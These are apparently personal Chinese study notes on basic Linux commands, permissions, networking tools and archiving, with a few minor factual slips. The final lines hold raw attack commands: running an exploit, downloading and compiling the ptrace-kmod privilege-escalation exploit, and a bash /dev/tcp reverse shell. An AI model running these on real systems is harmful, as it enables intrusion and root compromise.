





1.linux系统=内核+系统级应用程序（服务器操作系统）
内核起到调度硬件的能力，开源免费使用，把内核和自己集成的系统级应用程序封装就是linux发行版，比如centos，ubuntu等
2.linux 根目录是/  ，同时/也表示层级，不用：隔开 （斜杠）
 windows根目录是各个盘，用\表示层级（反斜杠）
3.命令格式
命令本身   命令行为细节(输出形式)   指向目标  ls -l /home/user
4.ls命令
ls命令后的参数 
-a  显示所有文件，包括隐藏文件  以点为开头的文件默认会被隐藏
-l 以竖列的形式显示，同时显示更多信息， 
-h 显示文件大小，k，m，g，但是必须和l连用 比如-lh
参数可以连用  比如 -al  -la -a -l，同时ls可以指定对象 比如ls -al /  根目录
5.cd命令
有参：要切换的目录  cd /
无参：/home 目录  cd 
6.pwd命令
显示当前所在的目录，和ls不同，ls是获得当前目录的内容 而pwd只是显示路径
7.相对和绝对路径
绝对路径：通过/逐级访问文件夹直到找到自己要切换的文件夹  必须使用/
相对路径：在当前文件夹下切换子文件夹 不用使用/
目录切换 
 .当前目录   .. 上一级     ../.. 上两级     ~默认表示home目录
8.mkdir命令  只能在home目录里面创建，外面比如根目录无法创建成功
mkdir  -p  路径
有-p  自动创建多级目录，包括不存在的父级目录
无-p  无法创建多级目录相对地址和绝对地址
9.touch命令
创建文件 可以是相对地址和绝对地址
10.cat和more命令
cat 查看
more 也是查看 对于内容较多可以使用空格翻页，通过q退出查看
11.cp命令 对文件或文件夹进行复制
cp 被复制的文件 产生文件的地址
复制文件夹要使用-r选项
12.rm命令  支持通配符
-r 选项 删除文件夹时用到
-f 强制删除 不弹提示
目标不存在就改名
13.which，find  支持通配符
which：查找各个命令所存在的程序文件的位置
find：find 起始路径（某个目录下） -name  "文件名" 
find ：find 起始路径 ...................   -size -/+  10kb/MB 找大于或小于该大小的文件，由加减号实现
14.grep命令   用于过滤关键字
grep -n "关键字"  文件路径(哪个文件)   有-n会显示行号 
15.wc命令  数量统计
不加选项  依次输出 行数 单词数 文件大小 文件名


16.管道符|
把左边命令的结果作为右边命令的输入 
和grep连用 ls连用等等
17.反引号和echo 
echo 正常输出内容 echo pwd/echo  "pwd"
加反引号后可以当做命令进行执行  echo `pwd` 输出路径
18.重定向符  >  >>
>:重定向会覆盖文件的内容
>>:在原文件后加上内容，不会覆盖
19.tail命令
查看文件尾部内容
-f 表示持续跟踪文件   可追踪文件更改
-num表示跟踪行数，不填默认10行
20.vim编辑器
vim 1.txt 进入命令模式，有快捷键可以编辑和操作文件，/进入命令搜索模式，输入i进入输入模式，可以自由编写内容  ，esc退回到命令模式，：wq保存并退出


21.su - 切换用户，不写默认切换到root
这里还添加了sudo 让普通用户临时拥有执行root用户权限的命令
22.用户组命令
groupadd ：添加用户组
groupdel：删除
23.用户命令
24.文件权限
共10个槽位
第一个d表示文件夹，-表示文件
后三个分别表示所属用户权限，用户组权限，其他用户权限
r：读取  w：写   x：执行   - ：没有权限
读取r权限可以查看   ls
w权限是创建文件，修改文件
执行实际上是可以进入该目录  cd 目录
25.chmod 修改权限
chmod -R  哪个用户权限 文件或文件夹
chmod -R u=rwx,g=rx,o=x hello.txt 
快捷键 751 权限
r=4，w=2，x=1 ，x=0
26.chown修改文件所属用户和用户组  root用户才能修改
chown -R 用户  ：用户组 文件或文件夹
chown root hello.txt只改用户
chowm :root hello.txt 只改用户组
chown root:sk57 hello.txt 两个都改
27.快捷键
crtl +d 退出特定程序 比如python 
！p 匹配最近执行的命令
crtl +r 搜索执行过的命令 
crtl+l清屏 或者clear
28.yum安装
yum -y install/remove/search 程序名  -y是自动确认
29.systemctl命令 控制各种系统服务  集成到systemctl中
systemctl   start/status/stop/enable/disable  服务(network/firewalld/ssh)副网络/防火墙/ssh服务
30.主机名修改
hostnamectl set-hostname 主机名
31.wget 在命令行内下载网络文件
wget -b url
-b  后台下载 并记录下载日志wget.log 文件中
32.curl命令   本质上获取网页源码/下载文件
curl -o url  发送http网络请求  下载文件，获取信息等
-o: 下载文件时使用，发起请求时不用 
33.端口  
1-1023 公认端口  系统内置程序和知名程序
ssh服务 ：22
https：443
34.nmap
查看某个主机的对外暴露端口  nmap 127.0.0.1
35.netstat命令
查看端口占用  netstat -anp 
netstat -anp | grep 22
36.ps 进程
ps -e/-f 查看进程 一般使用ps-ef 查看并列出全部进程信息 
-e 显示系统所有进程，不加只显示当前用户的进程
-f 显示完整的格式信息
也可以和grep连用 ps-ef | grep ssh/22
关闭进程  kill -9 进程id
-9是强制关闭


37.top命令
查看cpu，内存等等使用情况


38.环境变量设置
linux里面使用env显示环境变量
临时设置：export 变量名=变量值
针对当前用户永久 : ~/.bashrc 文件里写 export...
所有用户：/etc/profile文件  
二者都要使用 source  配置文件  生效
在path 里设置环境变量可以让所有目录访问到某个文件
先设置~/.bashrc文件 export PATH=$PATH:/home/sk57/myenv 然后把maha文件放在myenv目录下，这样就可以，然后还要给maha文件设置可执行权限，chmod 755 maha.txt ,这样在任何目录下就都可以执行该文件
39.文件上传和下载
可以直接在finalshell里拉拽和下载，也可以在命令行里使用命令
yum -y lrzsz 安装程序 
rz进行文件上传  sz进行文件下载
40.文件压缩和解压
-c 压缩模式  -v 查看进度，压缩解压均可用  -x 解压模式  -f 要创建或者解压的文件   -f选项必须位于最后一个
-C 文件解压指定目录
tar基本不改变文件大小，zip会改变文件大小
tar -cvf text.tar 1.txt 2.txt 3.txt   
tar  -xvf text.tar  -C（可选）/home/sk57  解压到指定目录
zip和tar基本一致 zip在对文件夹进行压缩时要多加一个选项-r
41.

```plain
compgen -c
```
查找可以使用的指令
​
​
./470 0x6b 192.168.89.135 -c 40
wget http://192.168.89.134:8000/ptrace-kmod.c
gcc -o 480 ptrace-kmod.c.1
rm ptrace-kmod.c
bash -i >&/dev/tcp/192.168.89.134/12138 0>&1
